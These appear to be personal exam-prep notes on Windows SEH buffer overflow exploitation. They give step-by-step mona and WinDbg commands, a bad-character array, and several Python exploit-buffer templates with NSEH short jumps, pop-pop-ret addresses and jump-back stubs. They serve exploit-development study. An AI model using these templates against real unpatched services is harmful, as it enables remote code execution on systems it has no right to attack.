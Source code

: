 # SEH Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with:
```py
!py mona pc XXX 
```
3. Find badchar:

```py
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
In order to find you payload you can dump the TEB and dump the EXCEPTION_REGISTRATION_RECORD.
For example:
```py
0:003> !teb
TEB at 002e3000
ExceptionList:        00edec94
StackBase:            00ee0000
StackLimit:           00edd000
SubSystemTib:         00000000
FiberData:            00001e00
ArbitraryUserPointer: 00000000
Self:                 002e3000
EnvironmentPointer:   00000000
ClientId:             0000196c . 000021bc
RpcHandle:            00000000
Tls Storage:          007f02b0
PEB Address:          002df000
LastErrorValue:       0
LastStatusValue:      c000000d
Count Owned Locks:    0
HardErrorMode:        0
```
And now you dump the \_EXCEPTION_REGISTRATION_RECORD to find NSEH
```py
0:003> dt _EXCEPTION_REGISTRATION_RECORD 00edec94
ntdll!_EXCEPTION_REGISTRATION_RECORD
+0x000 Next             : 0x00edffcc _EXCEPTION_REGISTRATION_RECORD
+0x004 Handler          : 0x77ec5b10     _EXCEPTION_DISPOSITION  ntdll!ExecuteHandler2+0

0:003> db 0x00edffcc 
00edffcc  42 42 42 42 43 43 43 43-01 02 03 04 05 06 07 08  BBBBCCCC........
00edffdc  09 0a 0b 0c 0d 0e 0f 10-11 12 13 14 15 16 17 18  ................
00edffec  19 1a 1b 1c 1d 1e 1f 20-21 22 23 24 25 26 27 28  ....... !"#$%&'(
00edfffc  29 2a 2b 2c ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  )*+,??
```
4. Find a PPR with mona and insert in the SEH
	```py
	!py mona seh -cpb '\x00'
	```
	1. If you find it, go to 5.
	2. If you have only NULL byte, read here https://dl.packetstormsecurity.net/papers/bypass/bypassing-nullbyte.pdf
		
5. Overwrite NSEH with a short jump
```py
nasm > jmp short 8
00000000  EB06 
```
6. Now look if you have space for the shellcode
	1. If you have it, insert the shellcode and pop the calc
		```py
		  crash = b"A"*junk
		  nSEH =  b"\xeb\x06\x90\x90" #jump 8 bytes
		  SEH = struct.pack("<I",0x100195f2) #pop pop ret 
		  junk2 = b"\x90"*10
		  shellcode = "\x23\x56\..."
		  junk3 = b"D"*(total - len(crash+nSEH+SEH+junk2+shellcode))

		  buffer=b"GET "
		  buffer+=crash+nSEH+SEH+junk2+shellcode+junk3
		  buffer+=b" HTTP/1.1\r\n"
		```
    2. Otherwise:
  
    	1. Increase the SP and JMP to it. For example:
			```py
			nasm > add sp, 0x86c
			00000000  6681C46C08        add sp,0x86c


			inputBuffer = b"A" * 124
			inputBuffer+= pack("<I",0x06eb9090) # short jump 8
			inputBuffer+= pack("<I",0x100133e7) # pop edi # pop esi # ret 0x04 
			inputBuffer+= b"\x90" * 2 
			inputBuffer+= b"\x66\x81\xc4\x6C\x08"   # 6681C46C08        add sp,0x86c
			inputBuffer+= b"\xff\xe4"               # jmp esp 
			inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
			inputBuffer+= shellcode
			```
        2. Jump back to the start of the payload (you have to calculate how much to jump)
			```py
			nasm > push esp
			\x54  
			nasm > pop eax
			\x58
			nasm > add ax, 0x5bd
			00000000  6605BD05          add ax,0x5bd
			nasm > jmp eax
			\xff\xe0

			buffer = shellcode
			buffer += b"A"*(2495-len(shellcode))
			buffer += b"\xeb\x06\x90\x90" #nseh
			buffer += pack("<I",0x10013407) #PPR  10013407
			buffer += b"\x54\x58\x66\x05\xbd\x05\xff\xe0" #jumpback
			buffer += b"\x90"*10
			buffer += b"D"*(total - len(buffer))
			```
		3. Similar to 2.
			```py
			  buf += b"B" * 129              # offset continued...
			  buf += b"\xeb\x06\x90\x90"     # nSeh      -> jmp 0x6 ; nop ; nop (jump over eip into short shellcode part below)
			  buf += pack("<I", 0x60ae1b2b)  # eip / seh -> pop ecx ; pop ecx ; ret
			  buf += b"\xb8\xc0\xf8\xff\xff" # mov eax, 0xfffff8c0 (redirect execution to top of buffer [shellcode])
			  buf += b"\xf7\xd8"             # neg eax
			  buf += b"\x01\xc4"             # add esp, eax
			  buf += b"\xff\xe4"             # jmp esp
			  buf += b"C" * 33               # required to trigger the seh overwrite rather than another crash
			```

## Resources
1. https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/
3. https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow
4. https://fuzzysecurity.com/tutorials/expDev/3.html
